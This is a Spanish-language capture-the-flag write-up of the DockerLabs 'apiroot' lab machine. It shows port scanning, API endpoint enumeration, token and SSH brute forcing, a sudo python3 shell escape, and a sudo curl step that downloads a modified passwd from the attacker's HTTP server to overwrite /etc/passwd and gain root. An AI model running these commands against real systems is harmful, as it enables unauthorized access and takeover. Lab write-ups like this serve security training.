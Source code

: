 nmap: 22, 5000

![image](https://github.com/user-attachments/assets/ebd72e6c-0cae-4a3a-a87b-32bd4d6d0d17)

entramos a la pagina por el puerto 5000

![image](https://github.com/user-attachments/assets/811b2243-4273-4387-9dc2-b4026ae5c599)

en la pagina nos da un código:

![image](https://github.com/user-attachments/assets/01e2fd20-e3b2-45c1-b936-a64d0e668314)

que si lo probamos da

![[dockerlabs/medio/apiroot/codigo2.png]]

nada interesante en si. pero en la pagina veremos algo, que cada ejemplo de API por ejemplo, GET O POST y así, tienen como comienzo "/api"

![[api2.png]]

hacemos un gobuster

![[dockerlabs/medio/apiroot/gobuster.png]]

y nos da "users", lo probamos

![[dockerlabs/medio/apiroot/pagina2.png]]

pero la verdad no da mucho mas, buscamos alguna forma de explotar esto, buscamos alguna explotación de "APIs"  y encontre esta: https://github.com/Maalfer/bruteapi/blob/main/bruteapi.sh
que es un .sh, así que nos copiamos el código, creamos un .sh y le damos permisos de ejecución.  

como de por si el ".sh" no esta funcionando o dando algo, lo lanzamos con el comando que nos dio la pagina al principio

     curl -H "Authorization: Bearer password_secreta" http://localhost:5000/api/directorio_oculto

pero medicando para que me de alguna respuesta diferente porque de por si el, ".sh"  es para hacer fuerza bruta, pero basados en el código que nos dieron.  lanzamos

     bash exploit.sh http://172.17.0.2:5000/api/users /usr/share/wordlists/rockyou.txt

![[exploit1.png]]

![[dockerlabs/medio/apiroot/contraseña.png]]

obtenemos la contraseña

     password1

y utilizamos la opción 2 que es `Bearer Token`, lo que intentara dar como una ¨coincidencia¨  

entonces si lanzamos el comando

     curl -H "Authorization: Bearer password1" http://172.17.0.2:5000/api/users

![[dockerlabs/medio/apiroot/usuarios.png]]

cambiamos en el código la "password_secreta" por la contraseña encontrada, cambiamos la IP a la de la maquina victima y "directorio_oculto" por "users" que fue lo que nos dio el gobuster. 
entonces obtenemos dos nombres 

     bob y dylan

hacemos una fuerza bruta:

![[dockerlabs/medio/apiroot/hydra.png]]

obtenemos a "bob" y "password1" y tenemos la conexion

![[dockerlabs/medio/apiroot/conexion.png]]

dentro tenemos esto

![[dockerlabs/medio/apiroot/sudo -l.png]]

un python3 y un "app.py", buscamos el de python3 https://gtfobins.github.io/gtfobins/python/#sudo

![[dockerlabs/medio/apiroot/gtf.png]]

lanzamos

     sudo -u balulero python3 -c 'import os; os.system("/bin/sh")'

y somos el usuario balulero

![[dockerlabs/medio/apiroot/usuario2.png]]

tenemos dentro un curl 

![[dockerlabs/medio/apiroot/curl.png]]

lo buscamos en gtf igual

![[dockerlabs/medio/apiroot/conexion2.png]]

y tendremos que abrir un servidor y clonar en este caso el archivo "passwd" 

![[la x.png]]

entonces copiamos el archivo de passwd desde la carpeta victima y en nuestra terminal le sacamos la "x" entonces ahora vamos a pasar desde nuestra maquina a la victima el archivo modificado desde un servidor como nos indica lo de FTFOBINS. 

abrimos el servidor 

     python3 -m http.server 

en la terminal victima colocamos 

    URL=http://172.17.0.1:8000/passwd
    LFILE=/etc/passwd
    sudo curl $URL -o $LFILE

entonces tendremos algo así 

![[server.png]]

ahora verificamos que se remplazo el archivo por el modificado

![[dockerlabs/medio/apiroot/root1.png]]

y vemos que no tiene la "x" así que se modifico correctamente, ahora haremos un "su root"

![[dockerlabs/medio/apiroot/rootf.png]]

y somos root! 

